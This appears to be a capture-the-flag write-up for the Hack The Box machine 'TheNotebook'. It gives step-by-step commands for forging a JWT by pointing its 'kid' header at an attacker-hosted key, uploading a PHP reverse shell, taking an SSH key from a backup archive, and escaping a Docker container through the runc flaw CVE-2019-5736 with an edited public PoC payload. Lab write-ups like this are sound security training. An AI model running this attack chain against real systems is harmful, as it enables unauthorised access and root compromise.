

    sudo nmap -sS -sV -p- 10.129.145.179
    PORT      STATE    SERVICE VERSION
    22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp    open     http    nginx 1.14.0 (Ubuntu)
    10010/tcp filtered rxapi
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Foothold

After registration on thenotebook.htb we get a cookie with a JWT token which we can decode on https://jwt.io/:

    "kid": "http://localhost:7070/privKey.key"
    ....
    "admin_cap": 0

We can abuse this and set admin_cap to 1. However to get a valid cookie we also need to change the kid value to our own ip and our own key like this:

    "kid": "http://10.10.14.14:7070/privKey.key"
    ....
    "admin_cap": 1

We create our key like this:

    ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
    
And start our webserver like this:

    python3 -m http.server 7070

We use the keys in the generator from https://jwt.io/ to create the new verified cookie.
After setting our cookie we get an admin panel where we can upload files.

We can simply upload [this reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and are now the www-data user.

## User

We find a backup:

    /var/backups/home.tar.gz

Which we can extract with `tar xfv home.tar.gz` and retrieve the private SSH key of Noah in `.ssh`.

We can use it like this to connect via ssh and retrieve the user.txt:

    ssh -i id_rsa noah@10.10.10.230

## Root

For PrivEsc we try sudo -l:

    User noah may run the following commands on thenotebook:
        (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*

So we can run:

    sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash

to interact with the running docker-container webapp-dev01.
Enumerating the container we find that it is vulnerable to CVE-2019-5736, so we can use this [PoC](https://github.com/Frichetten/CVE-2019-5736-PoC).

In the main.go we change the payload to:

    var payload = "#!/bin/bash \n cat /root/root.txt > /tmp/rootflag && chmod 777 /tmp/rootflag"

Obviously we could put a rever shell in there aswell.

We create our main executable with `go build main.go` and download it to our webapp-dev01 container with wget.
Now just make it executable and run it:

    chmod +x main; ./main

While the console in the container displays: '[+] Overwritten /bin/sh successfully' we run:

    sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh

in a second ssh session of Noah.
After the message:

    No help topic for '/bin/sh'
 
we find the rootflag in /tmp/ as we wrote in our payload.
